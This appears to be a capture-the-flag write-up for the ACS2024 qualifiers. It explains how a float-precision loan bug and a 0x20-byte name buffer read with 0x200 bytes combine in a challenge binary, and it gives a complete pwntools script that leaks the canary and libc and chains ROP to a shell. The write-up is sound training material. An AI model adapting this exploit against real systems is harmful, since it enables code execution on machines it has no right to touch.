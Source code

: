 # ACS2024 Quals Writeup by Teh Tarik Cendol

## Table of Contents
- [Audit/no-name minor](#Auditno-name-minor)
- [Rev/CS1338: Script Programming](#RevCS1338-Script-Programming)

# Audit/no-name minor

This was a challenge similar to the one I created for Battle of Hackers 2024 so we solved it relatively fast. The challenge provides us with a binary that presents a menu that allows the user to borrow a loan, repay the loan, mining for money, buy a name and change name. 

![image](https://github.com/user-attachments/assets/90df0d94-6313-47c3-98f0-9376ca855de0)

The goal is to get a name. But 

- To buy a name, you need to have money.
- To have money you cannot simply mine, cause it will take a lot of time.
- So you need to loan and then repay them.

The vulnerability lies in the way the program keeps track of the user's loan.

<details>
<summary>Source Code</summary>

```c
// Miner struct
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

// Loan function
void loan(struct MinerAccount *account) {
	uint32_t amount = 0;
    
	printf("How much loan would you like to request?\n");
	if(scanf("%d", &amount) != 1) {
    	printf("Invalid input\n");
    	return;
	}
    
	if(account->debt_balance + amount > MAX_LOAN) {
    	printf("Loan limit exceeded\n");
    	return;
	}

	account->cash += amount;
	account->debt_balance += amount;

	printf("Current cash: $%.2f\n", account->cash);
	printf("Debt balance: $%.2f\n", account->debt_balance);
}
```
</details>

The user's loan is defined as a float, which can be subjected to **floating point inaccuracy.**  A float is 32 bit and it has 1 bit for sign, 23 bit for mantissa and 8 bit for exponent. For integers, the inaccuracy starts at 2^24 (16,777,216). In other words, all integers can be represented as floats up to 2^24 but not beyond that. Specifically, in the range of 2^24 to 2^25, float does not support odd numbers, only even numbers.

<details>
<summary>Proof of Concept</summary>

### Proof of Concept

![image](https://github.com/user-attachments/assets/e75708b0-e383-4faa-bb98-5bbff0919289)

Heres a simple C program that demonstrates this

![image](https://github.com/user-attachments/assets/592a968a-5ee3-4b0d-a6b0-281de6eae7fa)

This is the output

</details>

### Exploiting the Program

Now, we just need to borrow money until 16777216, buy the name, and borrow loan of size $1 until we eventually are able to repay our loan.

![image](https://github.com/user-attachments/assets/ad4d18bc-c5af-45d3-b630-8f4067bb0321)

Buying the name

![image](https://github.com/user-attachments/assets/318be9bc-d5d2-419d-a6cb-637534776cb4)

After borrowing $1

### Buffer Overflow

<details>
<summary>Source Code</summary>

```c
#define MAX_BUF 0x200
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

void change_name(struct MinerAccount *account) {
	if (has_name_rights != 1) {
    	printf("You do not have the right to change your name.\n");
    	printf("Please purchase a name to gain the rights to rename your no-name.\n");
    	return;
	}
	if(account->debt_balance != 0) {
    	printf("You still have debts to repay.\n");
    	printf("Pay off your debts to rename your no-name.\n");
    	return;
	}
	printf("Enter new name.\n");
	read(0, account->name, MAX_BUF);

	printf("Name updated successfully.\n");
}

int main() {
	initialize();
	srand(time(NULL));
	struct MinerAccount account = {0, 0, 0, "no-name"};
	while(1) {
    	int choice;
    	printf("===========================\n");
    	printf("Welcome to %s\n", account.name);
    	printf("Current cash: $%.2f\n", account.cash);
    	printf("Debt balance: $%.2f\n", account.debt_balance);
    	printf("===========================\n");

    	printf("1. Loan\n2. Repayment\n3. Mining\n4. Buy Name\n5. Change Name\n6. Exit\nChoose an action.\n");
    	scanf("%d", &choice);
    	switch(choice) {
        	case 1:
            	loan(&account);
            	break;
        	case 2:
            	repayment(&account);
            	break;
        	case 3:
            	mining(&account);
            	break;
        	case 4:
            	buy_name(&account);
            	break;
        	case 5:
            	change_name(&account);
            	break;
        	case 6:
            	return 0;
        	default:
            	printf("Invalid choice\n");
            	break;
    	}
	}
	return 0;
}
```
</details>

The name in MinerAccount object was assigned to only 0x20 size, but in change_name function we can change up until 0x200. With the help of the printf() in main, we are able to leak the stack canary and libc address after overwriting enough bytes using read(). Putting it all together, we get 

1) We loan 16777216 money
2) Then we buy name so our money no 16777216 - 1337
3) Then if we loan 1 dollar each time, our cash increase, but debt stays the same. So we loan 1 dollar for 1337 times
4) Then can repay all debt
5) Now start the leaking process through name
6) Leak canary
7) Leak libc_start_main address
8) Proceed will rop chain to system

<details>
<summary>Exploit Script</summary>

```py
from pwn import *

exe = './prob'
elf = context.binary = ELF(exe, checksec = False)
io = elf.process()

context.log_level = 'info'

#---------------------------------------------------------------------
sleep(1)
#io.recvuntil(b'Choose an action.\n')
io.sendline(b'1')
#io.recvuntil(b'How much loan would you like to request?\n')
io.sendline(b'16777216')

#io.recvuntil(b'Choose an action.\n')
io.sendline(b'4')


for i in range(1337):
#	io.recvuntil(b'Choose an action.\n')
	io.sendline(b'1')
#	io.recvuntil(b'How much loan would you like to request?\n')
	io.sendline(b'1')

io.recvuntil(b'Choose an action.\n')
io.sendline(b'2')
io.recvuntil(b'How much would you like to repay?\n')
io.sendline(b'16777216')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*44)

io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
canary = io.recv(7).strip()
canary = b'\x00'+canary
canary = unpack(canary)
info(f'Canary: {hex(canary)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*59)
io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
libc_add = unpack(io.recv(6).strip().ljust(8,b'\x00'))
info(f'libc leaked : {hex(libc_add)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')

libc = ELF('./libc.so.6')
libc.address = libc_add-0x29d90
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*44
payload += p64(canary)
payload += b'A'*8
payload += p64(libc.address + 0x0000000000029cd6)
payload += rop.chain()
io.sendline(payload)

#--------------------------------------------------------------------
io.interactive()
```
</details>

# Rev/CS1338: Script Programming

![image](https://github.com/user-attachments/assets/0d5f6ee7-5b36-48fa-8de2-a42a96f3dcb6)

![image](https://github.com/user-attachments/assets/88e3fbcd-01f1-4b0f-8fc2-0a4b20403711)

